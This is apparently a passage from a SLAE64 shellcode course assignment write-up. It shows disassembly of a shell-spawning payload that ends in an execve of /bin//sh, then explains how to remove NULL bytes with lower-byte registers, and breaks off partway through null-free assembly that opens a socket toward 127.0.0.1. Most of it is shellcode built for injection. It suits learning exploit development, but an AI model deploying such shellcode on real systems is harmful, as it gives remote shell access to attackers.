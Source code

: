 ```term
  68:   0f 05                   syscall 
  6a:   48 31 c0                xor    rax,rax
  6d:   50                      push   rax
  6e:   48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f2f6e69622f
  75:   2f 73 68 
  78:   53                      push   rbx
  79:   48 89 e7                mov    rdi,rsp
  7c:   50                      push   rax
  7d:   48 89 e2                mov    rdx,rsp
  80:   57                      push   rdi
  81:   48 89 e6                mov    rsi,rsp
  84:   48 83 c0 3b             add    rax,0x3b
  88:   0f 05                   syscall 
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_2/B/og$
```

Similarly like in the prior Assignment, most of the NULL opcodes arise from MOV operations, moving small values into rather big registers (I.E performing a MOV operation against 
the value "1" into RSI). In order to prevent such values, Lower bit Registers can be used. For instance, instead of using RAX when incrementing the register, AL could be used 
instead, which performs the same operation, with no NULLs whatsoever. In addition, a similar operation could be incrementing the register by one.

Final code:

```term
global _start


_start:

	; sock = socket(AF_INET, SOCK_STREAM, 0)
	; AF_INET = 2
	; SOCK_STREAM = 1
	; syscall number 41


        xor rax, rax
        xor rdi, rdi
        xor rsi, rsi
        xor rdx, rdx

	mov al, 41

        inc rdi
        inc rdi

        inc rsi

	syscall

	; copy socket descriptor to rdi for future use

	mov rdi, rax


	; server.sin_family = AF_INET
	; server.sin_port = htons(PORT)
	; server.sin_addr.s_addr = inet_addr("127.0.0.1")
	; bzero(&server.sin_zero, 8)

	xor rdx, rdx
        xor rbp, rbp

```
